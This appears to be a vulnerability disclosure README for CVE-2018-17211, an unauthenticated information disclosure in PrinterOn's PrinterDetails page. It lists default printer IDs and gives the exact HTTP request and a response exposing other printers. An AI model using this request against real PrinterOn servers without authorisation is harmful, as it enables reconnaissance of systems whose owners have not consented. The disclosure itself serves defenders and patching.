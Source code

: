 # CVE-2018-17211-Unauthenticated Information Disclosure-PrinterOn

The PrinterOn application is vulnerable to an Information Disclosure vulnerability due to the overly permissive read access on the "PrinterDetails" page.
This behaviour is triggered by giving a valid "printerId", exposing the other existing printers.

##### Example of Default Printer IDs

- 900005228231
- 900784151735
- 900739427876

##### REQUEST:

```
GET /cps/PrinterDetails?printerId=900005228231 HTTP/1.1
Host: YY.YY.YY.YY
```

##### RESPONSE:

```
HTTP/1.1 200 
<--SNIP-->
Server: PrinterOn
Content-Length: 12625

<--SNIP-->

<div class="col-xs-6">
                        <select class="form-control" name="printerId" size="1"
                                onChange="document.ShowPrinterDetailsForm.submit()" style="vertical-align: top;">
                            
                                <option value="900005228231"  selected >
                                        Auto-generated Printer 1
                                </option>
                            
                                <option value="900784151735" >
                                        Auto-generated Printer 2
                                </option>
                            
                                <option value="900739427876" >
                                        TestPrint
                                </option>
                            
                        </select>
                    </div>

<--SNIP--> 
````

<img src='Info_Disclosure_Result.png'>
